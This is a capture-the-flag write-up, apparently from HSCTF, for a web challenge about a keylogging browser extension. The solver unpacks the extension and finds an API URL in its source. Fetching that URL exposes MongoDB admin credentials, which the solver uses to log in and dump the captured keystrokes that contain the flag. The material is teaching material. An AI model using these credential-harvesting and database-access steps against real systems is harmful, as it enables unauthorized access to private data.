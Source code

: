 # Keith Logger
Web

## Challenge 

Keith is up to some evil stuff! Can you figure out what he's doing and find the flag?

Note: nothing is actually saved

## Solution

Unzip the crx file to view source code

	 $ mkdir contents
	 $ cd content
	 $ cd contents
	contents $ unzip ../extension.crx 

We see a URL commented out in content.js

    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/admin",
      true
    );*/

Access the page, we see a note

	$ curl https://keith-logger.web.chal.hsctf.com/api/admin
	didn't have time to implement this page yet. use admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017 for now

Use mongo to access.

	$ docker pull mongo
	$ docker run --name some-mongo -d mongo:latest
	$ docker exec -it some-mongo sh

	# mongo -u admin -p keithkeithkeith keith-logger-mongodb.web.chal.hsctf.com:27017/admin

		> db.getMongo().getDBNames()
		[ "database" ]
		> use database
		switched to db database
		> show collections
		collection
		> db.collection.find().pretty()
			{
				"_id" : ObjectId("5cf0512d464d9fe1d9915fbd"),
				"text" : "are kitties cool",
				"url" : "https://keith-logger.web.chal.hsctf.com/",
				"time" : "21:54:53.925045"
			}
			{
				"_id" : ObjectId("5cf051a95501f2901a915fbd"),
				"text" : "because i think they are",
				"url" : "https://keith-logger.web.chal.hsctf.com/",
				"time" : "21:56:57.974856"
			}
			{
				"_id" : ObjectId("5cf051b3464d9fe1d9915fbe"),
				"text" : "meow! :3",
				"url" : "https://keith-logger.web.chal.hsctf.com/",
				"time" : "21:57:07.295378"
			}
			{
				"_id" : ObjectId("5cf0520b464d9fe1d9915fbf"),
				"text" : "meow! :3",
				"url" : "https://keith-logger.web.chal.hsctf.com/",
				"time" : "21:58:35.030635"
			}
			{
				"_id" : ObjectId("5cf05212464d9fe1d9915fc0"),
				"text" : "if you're looking for the flag",
				"url" : "https://keith-logger.web.chal.hsctf.com/",
				"time" : "21:58:42.170470"
			}
			{
				"_id" : ObjectId("5cf0521b5501f2901a915fbe"),
				"text" : "it's hsctf{watch_out_for_keyloggers}",
				"url" : "https://keith-logger.web.chal.hsctf.com/",
				"time" : "21:58:51.359556"
			}

## Flag

	hsctf{watch_out_for_keyloggers}
